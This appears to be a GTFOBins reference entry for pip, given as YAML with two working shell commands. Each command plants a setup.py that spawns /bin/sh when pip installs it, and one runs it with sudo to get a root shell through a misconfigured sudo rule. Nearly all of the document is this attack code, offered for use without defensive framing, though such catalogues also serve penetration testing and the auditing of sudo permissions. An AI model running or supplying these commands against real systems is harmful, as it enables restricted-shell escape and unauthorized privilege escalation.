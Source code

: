 ```yaml
---
description: |
  More generally, this allows to execute arbitrary Python code.

  See the entries of Python [version 2](/gtfobins/python2/) and [version 3](/gtfobins/python3/).
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -d)
        echo 'import os; os.dup2(0, 1); os.dup2(0, 2); os.execl("/bin/sh", "sh")' > $TF/setup.py
        pip install $TF
  sudo-enabled:
    - code: |
        TF=$(mktemp -d)
        echo 'import os; os.dup2(0, 1); os.dup2(0, 2); os.execl("/bin/sh", "sh")' > $TF/setup.py
        sudo pip install $TF
---
```

